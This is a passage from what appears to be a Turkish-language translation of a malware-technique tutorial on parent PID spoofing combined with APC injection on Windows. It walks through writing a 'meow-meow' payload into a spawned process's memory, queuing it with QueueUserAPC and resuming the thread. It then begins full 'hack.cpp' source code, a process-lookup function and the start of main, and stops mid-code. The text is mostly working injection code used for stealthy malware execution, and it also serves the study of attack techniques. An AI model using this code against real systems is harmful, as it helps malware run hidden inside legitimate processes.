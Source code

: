 Oluşturulan süreç belleğine `meow-meow` payload'unu yazın:     

```cpp
BOOL res = WriteProcessMemory(pi.hProcess, ba, (LPVOID)my_payload, sizeof(my_payload), nb);
```

Oluşturulan işlemin iş parçacığına, APC kuyruğuna bir kullanıcı modu asenkron işlem çağrısı (APC) nesnesi ekleyin:      

```cpp
QueueUserAPC((PAPCFUNC)ba, pi.hThread, 0);
```

İş parçacığını devam ettirin:     

```cpp
ResumeThread(pi.hThread);
CloseHandle(pi.hThread);
```

Tam kaynak kod:    

```cpp
/*
hack.cpp
parent PID spoofing with APC
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/09/06/malware-tricks-23.html
*/
#include <windows.h>
#include <tlhelp32.h>
#include <iostream>

int findMyProc(const char *procname) {

  HANDLE hSnapshot;
  PROCESSENTRY32 pe;
  int pid = 0;
  BOOL hResult;

  // snapshot of all processes in the system
  hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
  if (INVALID_HANDLE_VALUE == hSnapshot) return 0;

  // initializing size: needed for using Process32First
  pe.dwSize = sizeof(PROCESSENTRY32);

  // info about first process encountered in a system snapshot
  hResult = Process32First(hSnapshot, &pe);

  // retrieve information about the processes
  // and exit if unsuccessful
  while (hResult) {
    // if we find the process: return process ID
    if (strcmp(procname, pe.szExeFile) == 0) {
      pid = pe.th32ProcessID;
      break;
    }
    hResult = Process32Next(hSnapshot, &pe);
  }

  // closes an open handle (CreateToolhelp32Snapshot)
  CloseHandle(hSnapshot);
  return pid;
}


int main(int argc, char* argv[]) {
```